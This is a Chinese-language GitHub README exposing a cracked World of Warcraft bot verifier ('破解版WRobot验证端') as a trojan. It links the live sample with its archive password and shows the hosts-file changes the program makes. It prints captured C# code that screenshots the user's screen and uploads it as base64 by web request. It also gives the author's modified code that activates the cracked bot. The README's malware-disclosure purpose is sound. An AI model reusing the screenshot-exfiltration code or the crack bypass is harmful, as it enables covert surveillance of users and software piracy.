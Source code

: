 # Wrobot 木马

前不久获得一份WRobot的破解版程序，该程序用于魔兽世界脚本Bot。在测试环境中发现一些不寻常的地方，多次与破解程序发布者联系无果后我将所掌握的内容发布在此。

通过搜索引擎发现此破解程序的作者多年来在很多与魔兽世界相关的 中/英 论坛上发布过此破解程序的推广信息。

`木马传播涉事QQ号 8171974 287228864 401979123  QQ群 6456089 传播时间 2017-2023 至今还未被处理`

<details>
<summary><code><strong>「点击查看」</strong></code></summary>
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/1.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/3.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/5.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/6.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/7.PNG?raw=true" width=30%  />
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/9.PNG?raw=true" width=30%  />
</details>

<details>
<summary><code><strong>「点击查看下载地址」</strong></code></summary>

破解版WRobot验证端  解压密码：1234567890 
**[Download](https://github.com/elseif2023/Wrobot/blob/main/document/%E7%A0%B4%E8%A7%A3%E7%89%88WRobot%E9%AA%8C%E8%AF%81%E7%AB%AF.rar)**

查毒检测报告：https://www.virustotal.com/gui/file/7f5703e57194fded6e5588ad54be0b5896009e51c41c6eeaca738a8f77bcb2e7

</details>

当使用者使用 破解版WRobot验证端.exe 时会触发下列动作

1. 获取使用者的QQ和QQ群，如果未启动QQ会提示具有误导性的错误提示。当使用者关闭 破解版WRobot验证端.exe 然后登录QQ并再次启动 破解版WRobot验证端.exe 点击登录会获取使用者的QQ和QQ群，如果使用者在该程序发布者的QQ群内那么登录成功。否则则提示之前的误导性错误提示。

2. 改并添加下列内容到计算机上的hosts文件内，将使用者解析目标网站上
```
#==== 下面两行是破解版WR转向服务器IP ====
43.252.229.37 tumadre.000webhostapp.com
127.0.0.1 download.wrobot.eu
```

通过访问 43.252.229.37 发现此IP地址属于破解程序发布者的广告网站，同时注册了名为 wrobot_free.kissdjmax.com 的域名 

<details>
<summary><code><strong>「点击查看网站截图」</strong></code></summary>
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/4.PNG?raw=true" width=100%  />
</details>

成功登录到 破解版WRobot验证端 后，启动魔兽世界并进入游戏在启动由破解程序发布者提供的 WRobotWOTLK/WRobot.exe 进行激活 在使用过程中通过截取数据获得了下列内容

<details>
<summary><code><strong>「点击查看截取信息」</strong></code></summary>
  
```C#
public class Main {
  public void Initialize() {
    try {
      var exeString = System.IO.File.ReadAllText(System.Windows.Forms.Application.StartupPath + @"\" + System.Diagnostics.Process.GetCurrentProcess().ProcessName + ".exe ");
     robotManager.Helpful.Var.SetVar("IsSafeToUse", true);
     robotManager.Helpful.Var.SetVar("SessionKey", "231983688180");
    }
    catch (System.Exception es) {}

string fullScreenShotPath = System.IO.Path.GetTempPath() + System.Environment.MachineName;

System.Drawing.Bitmap screenshot = new System.Drawing.Bitmap(System.Windows.Forms.SystemInformation.VirtualScreen.Width,
 System.Windows.Forms.SystemInformation.VirtualScreen.Height,
 System.Drawing.Imaging.PixelFormat.Format32bppArgb);
System.Drawing.Graphics screenGraph = System.Drawing.Graphics.FromImage(screenshot);
screenGraph.CopyFromScreen(System.Windows.Forms.SystemInformation.VirtualScreen.X,
 System.Windows.Forms.SystemInformation.VirtualScreen.Y,
 0,
 0,
 System.Windows.Forms.SystemInformation.VirtualScreen.Size,
 System.Drawing.CopyPixelOperation.SourceCopy);

screenshot.Save(fullScreenShotPath + ".jpg", System.Drawing.Imaging.ImageFormat.Jpeg);

System.Drawing.Image myImage = GetImage(fullScreenShotPath + ".jpg");

string base64Image = ImageToBase64(myImage, System.Drawing.Imaging.ImageFormat.Jpeg);
string fileName = System.Environment.MachineName;

using(System.Net.WebClient client = new System.Net.WebClient()) {
 byte[] response = client.UploadValues("http://127.0.0.1/upload/validate.php", new System.Collections.Specialized.NameValueCollection() {
  {
   "myImageData",
   base64Image
  }, {
   "fileName",
   fileName
  }
 });
}

if (System.IO.File.Exists(@fullScreenShotPath + ".jpg"))
                {
                    System.IO.File.Delete(@fullScreenShotPath + ".jpg");
                }
    }

        System.Drawing.Image GetImage(string filePath) {
         System.Net.WebClient l_WebClient = new System.Net.WebClient();
         byte[] l_imageBytes = l_WebClient.DownloadData(filePath);
         System.IO.MemoryStream l_stream = new System.IO.MemoryStream(l_imageBytes);
         return System.Drawing.Image.FromStream(l_stream);
        }

        string ImageToBase64(System.Drawing.Image image, System.Drawing.Imaging.ImageFormat format) {
         using(System.IO.MemoryStream ms = new System.IO.MemoryStream()) {
          // Convert Image to byte[]
          image.Save(ms, format);
          byte[] imageBytes = ms.ToArray();

          // Convert byte[] to Base64 String
          string base64String = System.Convert.ToBase64String(imageBytes);
          return base64String;
         }

        }
}
```
</details>

### 修改

修改截取的内容后获得下面的代码，并将解析地址由 43.252.229.37 tumadre.000webhostapp.com 改为 127.0.0.1 tumadre.000webhostapp.com 在本地部署代码后 WRobot.exe 程序激活成功，并且功能正常。

<details>
<summary><code><strong>「点击查看修改后的代码」</strong></code></summary>

```C#
public class Main {
  public void Initialize() {
    try {
      var exeString = System.IO.File.ReadAllText(System.Windows.Forms.Application.StartupPath + @"\" + System.Diagnostics.Process.GetCurrentProcess().ProcessName + ".exe ");
     robotManager.Helpful.Var.SetVar("IsSafeToUse", true);
     robotManager.Helpful.Var.SetVar("SessionKey", "231983688180");
    }
    catch (System.Exception es) {}
    }
}
```
</details>

### 分析
检查过后发现 WRobotWOTLK\Bin\wManager.dll 应该被破解程序发布者做过手脚，在不本地部署代码只删除掉 wManager.dll 内几处代码后正常启动。

此破解程序是用于魔兽世界私人服务器，此类游登陆器大多会被杀毒软件提示病毒而让玩家关闭杀毒，破解程序通过设置多个障碍来在一个小范围内寻找合适的目标并以此获利。

应该是出于获利的目的 43.252.229.37 这个用于验证的IP并不是时刻都能使用(根本不需要，即便需要也不存在所谓流量过大)，从而诱导使用者付费。一旦 43.252.229.37 此验证IP无法验证，那么也无法截取到任何有效内容。

此软件涉及屏幕截图和通过Web请求发送图像数据，这绝不是正常软件会做的事。

### 结论
在火绒安全提交了样本后，由火绒安全人工认定此破解程序为木马，处理结果 `https://bbs.huorong.cn/forum.php?mod=viewthread&tid=122996`

```
病毒名称：Trojan/Agent.bbp
病毒ID：6D2ACBF71A377760
病毒路径：C:\Users\game\AppData\Local\Temp\Rar$DRb2668.5172\破解版WRobot验证端.exe
操作类型：修改 
操作结果：已处理
```
https://user-images.githubusercontent.com/127265295/225115946-6562ab47-a3ad-4b4f-a5bd-0c086a57b625.mp4

```
```

<details>
<summary><code><strong>「查看截图」</strong></code></summary>
<img src="https://github.com/elseif2023/Wrobot/blob/main/picture/Screenshot_2023-03-14_13-02-20.png?raw=true" width=30%  />
</details>

### 所有文件都保存在此存储库内可自行下载检查，请注意此文件为病毒木马
